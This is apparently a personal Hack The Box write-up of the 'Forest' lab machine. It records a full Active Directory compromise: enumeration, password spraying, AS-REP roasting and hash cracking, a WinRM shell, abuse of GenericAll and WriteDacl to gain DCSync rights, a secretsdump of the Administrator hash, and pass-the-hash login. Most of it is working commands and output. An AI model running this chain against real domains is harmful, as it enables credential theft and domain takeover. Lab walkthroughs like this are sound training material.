

---
tags:
  - asreproasting
  - ad_genericall
  - ad_writedacl
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Forest/
- Reference : https://0xdf.gitlab.io/2020/03/21/htb-forest.html
- Solved : 2024.12.3. (Tue) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
	- **Port Scanning**:
	    - Identified critical services such as DNS, Kerberos, LDAP, SMB, and WinRM.
	    - Confirmed the domain `htb.local` and the hostname `FOREST.htb.local`.
	- **User Enumeration**:
	    - Discovered valid AD usernames using `ldapsearch` and confirmed them with `kerbrute`.
	- **DNS and LDAP**:
	    - Attempted zone transfers (failed) and enumerated AD attributes to retrieve usernames and password policies.
	    
2. **AS-REP Roasting**
	- Discovered `svc-alfresco` account with `UF_DONT_REQUIRE_PREAUTH` flag using `impacket-GetNPUsers`.
	- Extracted the Kerberos AS-REP hash and cracked it using `hashcat`.
	
3. **Access via WinRM**
	- Used the cracked password of `svc-alfresco` to authenticate and gain a shell on the system using `evil-winrm`.
	
4. **Privilege Escalation**
	- **Generic All Privilege**:
	    - Exploited `Generic All` permission to add `svc-alfresco` to the `Exchange Windows Permissions` group.
	- **DCSync Attack**:
	    - Leveraged `WriteDacl` permission from the `Exchange Windows Permissions` group to grant `DCSync` rights to `svc-alfresco`.
	    - Extracted the NTLM hash of the `Administrator` account using `impacket-secretsdump`.
5. **Administrative Access**
	- Used the extracted NTLM hash of `Administrator` to authenticate via WinRM and gain full control of the system.

### Key Techniques:

- **Enumeration**: LDAP, Kerberos, and RPC enumeration to gather usernames and domain details.
- **AS-REP Roasting**: Cracked Kerberos hash to gain initial foothold.
- **Group Privileges**: Abused `Generic All` and `WriteDacl` permissions to escalate privileges.
- **DCSync Attack**: Extracted NTLM hashes of privileged accounts for full domain compromise.
- **Pass-the-Hash**: Used NTLM hash to authenticate as the `Administrator`.


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.161
Performing quick port scan on 10.10.10.161...
Found open ports: 53,88,135,139,389,445,464,593,636,3268,3269,3695,5985,9389,47001,49664,49665,49666,49668,49671,49676,49677,49684,49706,54286
Performing detailed scan on 10.10.10.161...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 15:04 EST
Nmap scan report for 10.10.10.161
Host is up (0.13s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-02 20:11:07Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds  Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3695/tcp  closed bmc-data-coll
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49671/tcp open   msrpc         Microsoft Windows RPC
49676/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open   msrpc         Microsoft Windows RPC
49684/tcp open   msrpc         Microsoft Windows RPC
49706/tcp open   msrpc         Microsoft Windows RPC
54286/tcp closed unknown
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-12-02T12:11:59-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2024-12-02T20:12:02
|_  start_date: 2024-12-02T20:06:24
|_clock-skew: mean: 2h46m48s, deviation: 4h37m08s, median: 6m47s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.51 seconds
```

- It obviously looks like an Windows machine.
- DNS(53) is running.
- AD services such as Kerberos(88), RPC(135), WinRM(5985), LDAP(389) are running, which means that it's possibly be a Domain Controller.
- SMB(139,445) is running, which might be useful to find shares.
- Domain name is `htb.local`. Let's add this to `/etc/hosts`.

### DNS(53)

Let's start with DNS first which doesn't require any credential.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ dig any @10.10.10.161 htb.local

; <<>> DiG 9.20.0-Debian <<>> any @10.10.10.161 htb.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35211
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: 4e5acf31a2f0e863 (echoed)
;; QUESTION SECTION:
;htb.local.                     IN      ANY

;; ANSWER SECTION:
htb.local.              600     IN      A       10.10.10.161
htb.local.              3600    IN      NS      forest.htb.local.
htb.local.              3600    IN      SOA     forest.htb.local. hostmaster.htb.local. 116 900 600 86400 3600

;; ADDITIONAL SECTION:
forest.htb.local.       3600    IN      A       10.10.10.161

;; Query time: 155 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (TCP)
;; WHEN: Mon Dec 02 15:13:27 EST 2024
;; MSG SIZE  rcvd: 150

                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ dig axfr @10.10.10.161 htb.local

; <<>> DiG 9.20.0-Debian <<>> axfr @10.10.10.161 htb.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

`forest.htb.local`, and `hostmaster.htb.local` are found.
Zone transfer is not allowed.

### LDAP(389)

Let's try `ldapsearch` if there's any user finding.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -H ldap://10.10.10.161 -x -b "DC=HTB,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
Guest
DefaultAccount
FOREST$
EXCH01$
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
andy
mark
santi
```

`ldapsearch` finds several users. Except some auto-generated-looking usernames like `HealthMailboxc....`, let's make `usernames.txt` to save the username list.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat usernames.txt 
sebastien
lucinda
andy
mark
santi
```

Then, let's check password policy.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ldapsearch -H ldap://10.10.10.161 -x -b "DC=HTB,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -9223372036854775808
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 0
pwdHistoryLength: 24
```

### Kerberos(88)

Let's double check the usernames with `kerbrute`.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ kerbrute_linux_arm64 userenum --domain htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.161 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 12/02/24 - Ronnie Flathers @ropnop

2024/12/02 15:27:10 >  Using KDC(s):
2024/12/02 15:27:10 >   10.10.10.161:88

2024/12/02 15:27:16 >  [+] VALID USERNAME:       mark@htb.local
2024/12/02 15:27:17 >  [+] VALID USERNAME:       andy@htb.local
2024/12/02 15:27:29 >  [+] VALID USERNAME:       forest@htb.local
2024/12/02 15:27:36 >  [+] VALID USERNAME:       Mark@htb.local
2024/12/02 15:27:42 >  [+] VALID USERNAME:       administrator@htb.local
2024/12/02 15:28:21 >  [+] VALID USERNAME:       Andy@htb.local
2024/12/02 15:28:45 >  [+] VALID USERNAME:       sebastien@htb.local
2024/12/02 15:29:27 >  [+] VALID USERNAME:       MARK@htb.local
2024/12/02 15:30:18 >  [+] VALID USERNAME:       Forest@htb.local
2024/12/02 15:30:32 >  [+] VALID USERNAME:       santi@htb.local
2024/12/02 15:30:49 >  [+] VALID USERNAME:       lucinda@htb.local
2024/12/02 15:31:00 >  [+] VALID USERNAME:       Administrator@htb.local
```

`administrator`, `forest` need to be added. But other than that, there's no other newly found users.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ kerbrute_linux_arm64 userenum --dc 10.10.10.161 -d htb.local usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 12/02/24 - Ronnie Flathers @ropnop

2024/12/02 15:32:43 >  Using KDC(s):
2024/12/02 15:32:43 >   10.10.10.161:88

2024/12/02 15:32:43 >  [+] VALID USERNAME:       andy@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       administrator@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       lucinda@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       sebastien@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       santi@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       forest@htb.local
2024/12/02 15:32:43 >  [+] VALID USERNAME:       mark@htb.local
2024/12/02 15:32:43 >  Done! Tested 7 usernames (7 valid) in 0.126 seconds
```

Let's check if there's any user has `pre-auth` unset. This will be useful for `AS-REPRoasting`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.161 -usersfile usernames.txt htb.local/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User forest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### SMB(139,445)

Let's try password-spraying with `usernames.txt`

```scss
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.161 -u usernames.txt -p usernames.txt 
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing FTP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:sebastien STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:lucinda STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:andy STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:mark STATUS_LOGON_FAILURE 
<SNIP>
htb.local\administrator:santi STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\administrator:forest STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\administrator:administrator STATUS_LOGON_FAILURE 
```

All pairs are not working.. I think I have to try other methods..
Since there's no other vectors to break in, I think there might be other service that I'm missing..

# Shell as `svc-alfresco`

### RPC(135)

Let's try NULL session login using `rpcclient`.
If it allows, I can try `enumdomusers` command to find existing users.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U '' -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Surprisingly, there's an account that I kept missing : `svc-alfresco`.
Let's re-do AS-REP Roasting after adding it to `usernames.txt`.

### AS-REP Roasting

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetNPUsers -dc-ip 10.10.10.161 -usersfile usernames.txt htb.local/ -outputfile hashes.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User forest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b3af7ca7235c741a8f73f5209f8faaef$bfee014f4bbae36009851024ddec8eb1ef6319c911a734a6eea7db0580896d47aad9391d37a8fd9ee1f9f1283e8fab2d1a1f0cd8db169aa608ad1d6c84c31f8ad8c32f12bbaf04357f67dc6ced49afcf94d089ba177b88cc1de8816ef7af82ef21b42048e67989f3ddcf616e3ba907870ebdccb8185f0136f9e8a9112321f176e38693eabbf5b399038db164e8537f979f03f6be5590c46bdcc2ccb9d5422f48c36862bb234e9fa29d9a45ce3a328fd4706df80d3af7d639557e6d5fc918f49c2a520fc8a71173fd440c635b55dd3eaa6eb4cc3011922ecd7660fc85194fe1551d84f8547709
[-] invalid principal syntax

```

Bingo! AS-REPRoasting works, and I can retrieve `svc-alfresco`'s kerberos hash.
Let's crack this hash using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:b3af7ca7235c741a8f73f5209f8faaef$bfee0
<SNIP>
47709:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:b3af7ca7235c74...547709
Time.Started.....: Mon Dec  2 15:51:16 2024 (2 secs)
Time.Estimated...: Mon Dec  2 15:51:18 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
<SNIP>
```

Hashcat cracked the password. Now I have `svc-alfresco`'s password : `s3rvice`.
Let's check if this credential is working.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice
SMB         10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Since it's working on `winrm`, I think I can use `evil-winrm` to open a shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco /domain
User name                    svc-alfresco
Full Name                    svc-alfresco
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/2/2024 1:03:47 PM
Password expires             Never
Password changeable          12/3/2024 1:03:47 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/2/2024 12:56:40 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Service Accounts
The command completed successfully.
```

I got a shell, and found out that  `svc-alfresco` belongs to `Service Accounts`.

# Privesc to `Exchange Windows Permissions`

### Kerberoasting

Since we have a service account. I think it worths trying Kerberoasting attack.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-GetUserSPNs -request -dc-ip 10.10.10.161 htb.local/svc-alfresco:s3rvice
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

No entries found!
```

Unfortunately, it's not working..

### BloodHound

Let's collect more data with `BloodHound`.



> Honestly, I couldn't get the same output as the figure above.. `svc-alfresco` and `exchange windows permissions` group were not connected on my machine repeatedly. Maybe there are some changes in the machine..?

First, I need to exploit `Generic All` permission between `Account Operators` group and `Exchange Windows Permissions` group.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members "svc-alfresco"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'exchange windows permissions'
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
svc-alfresco
The command completed successfully.
```

Using `Add-ADGroupMember`, I could successfully add `svc-alfresco` in `Exchange Windows Permissions` group.

# Privesc to `Administrator`

Then, I need to exploit `WriteDacl` permission from `Exchange Windows Permissions` group towards `HTB.LOCAL`.
Once I obtained this, I can automatically get `Domain Admins`.

I can concatenate all the commands as follows;
(Have to import `PowerView.ps1` ahead) 

```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Then, let's try dumping `administrator`'s hash

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

`administrator`'s hash is `32693b11e6aa90eb43d32c72a07ceea6`

Let's try cracking the credential first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 1000 -a 0 admin.ntlm /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 bytDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
<SNIP>
```

It's not crackable.. Let's directly use this hash.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.161 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6    
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

It worked!